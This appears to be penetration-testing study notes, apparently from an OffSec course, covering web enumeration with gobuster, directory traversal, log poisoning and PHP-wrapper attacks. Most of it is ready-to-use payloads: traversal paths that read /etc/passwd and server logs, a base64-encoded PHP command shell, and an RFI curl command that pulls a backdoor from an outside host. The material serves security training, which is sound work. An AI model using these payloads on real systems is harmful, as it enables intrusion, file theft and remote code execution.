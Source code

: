
Fuzzing properly:
`gobuster dir -u http://172.16.136.30/ -w /usr/share/dirb/wordlists/big.txt -t 200 -x .aspx,.php,.jsp,.html,.js`

### Enumerating and Abusing APIs
```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```
```text
pattern.txt

{GOBUSTER}/v1
{GOBUSTER}/v2
```

### Cross-Site Scripting
> **Special characters:** 
> * `< > ' " { } ;`

### Directory Traversal / File Inclusion (LFI/RFI) / Log Poisoning
> **Notes:**
> * Use curl to get better formatting
> * If we retrieve the passwd file, try to retrieve `id_rsa` files
> * Encode characters if needed
> * Check for log poisoning in **Apache** servers

| **Files to try** | **Description** |
| ---- | ---- |
| `/index.php?page=../../../../etc/passwd` | Linux |
| `/index.php?page=../../../../Windows/System32/drivers/etc/hosts` | Windows 1 |
| `/index.php?page=..\..\..\..\Windows\System32\drivers\etc\hosts` | Windows 2 |
| `/index.php?page=../../../../var/log/apache2/access.log` | Apache (log poisoning) |
| `/index.php?page=../../../../xampp/apache/logs/access.log` | Apache (log poisoning) in XAMP 1 |
| `/index.php?page=..\..\..\..\xampp\apache\logs\access.log` | Apache (log poisoning) in XAMP 2 |

If we retrieve Apache access log, insert php code in the User-Agent header of the original request to trigger Log Poisoning vulnerability, then you can see the command output in the log file

> [!warning] Do no forget to try both Linux and Windows commands in log poisoning execution

![](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PWKR/imgs/commonwebattacks/a5768a72a99581707edad7a81a481e3a-cwa_lfi_modfirstreqcom.png)

| **PHP Wrappers** | **Description** |
| ---- | ---- |
| `/index.php?page=php://filter/resource=admin.php` | Get resource |
| `/index.php?page=php://filter/convert.base64-encode/resource=admin.php` | Get b64 encoded resource |
| `curl "http://host.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"` | RCE through wrappers |
| `curl "http://host.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"` | RCE through wrappers (b64 encoded) |
| `curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"` | RCE through RFI |
